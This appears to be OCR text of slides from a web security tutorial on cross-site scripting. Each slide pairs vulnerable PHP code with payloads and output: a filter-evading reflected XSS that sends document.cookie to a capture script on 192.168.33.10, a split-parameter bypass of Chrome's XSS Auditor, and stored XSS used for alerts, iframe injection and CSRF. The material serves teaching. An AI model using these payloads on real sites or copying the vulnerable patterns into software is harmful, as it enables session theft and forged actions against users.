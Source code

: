 Read GET parameters - EXPLOIT
XSS Reflected - Bypassing Chrome XSS Auditor
Chrome only checks if a parameter appears in the HTML Body too
If it appears in a parameter and in the body, Chrome blocks its execution
Code: 			$firstname = preg_replace("/script/i", "", $_POST[‘firstname’]);				$lastname = preg_replace("/script/i", "", $_POST[‘lastname’]);				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<svscriptg onlscriptoad=”new Image().src=’http://192.168.33.10				/support/capture_page.php?’ + document.cookie”></svscriptg>
Output: 		Hello John Doe [ broken image link ]!				Scripts are not the same!! (php modified it) so Chrome renders it

Read GET parameters - EXPLOIT
XSS Reflected - Bypassing Chrome XSS Auditor
Chrome only checks if a parameter appears in the HTML Body too
It checks for each parameter, but doesn’t cross-check! ( … bad pun intended)
Code: 			$firstname = $_POST[‘firstname’];	  // removing script is useless … 				$lastname = $_POST[‘lastname’];	  // no need for it now				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John<svg onload=”
lastname:		alert(‘gotcha!’)”>Doe
Output: 		Hello John[ … popup saying “gotcha!” …  ]Doe!				Each parameter is checked on its own! No match = rendered

Private Messaging System - EXPLOIT
XSS Stored
Chrome XSS Auditor won’t work here, it only checks for GET parameters
Code: 			echo “From: <b>{$row[‘from’]}</b> &lt; {$row[‘content’]}”;					// Next level HTML inline templates  :V					// Don’t try this at home (or even worse, at work)
Payload:			|  id	|	from		|	to	|		content		|				|   2	|  	Ford		|    Arthur	|    Hi Arthur! How are you?	|				|   5	|	Ford		|    Arthur	|    Sure!				|
Output: 			From: Ford > Hi Arthur! How are you?				From: Ford > Sure!

Private Messaging System - EXPLOIT
XSS Stored
A simple XSS: this one is just annoying, not really malicious
Code: 			echo “From: <b>{$row[‘from’]}</b> &lt; {$row[‘content’]}”;					
Payload:			|  id	|	from		|	to	|		content		|				|   2	|  	Ford		|    Arthur	|    Hi Arthur! How are you?	|				|   5	|	Ford		|    Arthur	|    <script>alert(1)</script>	|
Output: 			From: Ford > Hi Arthur! How are you?				From: Ford > [ … popup appears saying “1” … ]

Private Messaging System - EXPLOIT
XSS Stored
iFrame Injection
Code: 			echo “From: <b>{$row[‘from’]}</b> &lt; {$row[‘content’]}”;					
Payload:			|  id	|	from		|	to	|		content		|				|   2	|  	Ford		|    Arthur	|    Hi Arthur! How are you?	|				|   5	|	Ford		|    Arthur	| <iframe src="..."></iframe>	|
Output: 			From: Ford > Hi Arthur! How are you?				From: Ford > [ a frame with the target (src) website in it ]

Private Messaging System - EXPLOIT
XSS Stored
CSRF - Cross-Site Request Forgery
Make your victim perform an arbitrary action
Code: 			echo “From: <b>{$row[‘from’]}</b> &lt; {$row[‘content’]}”;					
Payload:			|  id	|	from		|	to	|		content		|				|   2	|  	Ford		|    Arthur	|    Hi Arthur! How are you?	|				|   5	|	Ford		|    Arthur	| 	<img src="..."/>		|
Output: 			From: Ford > Hi Arthur! How are you?				From: Ford > [ a GET action is automatically performed ]
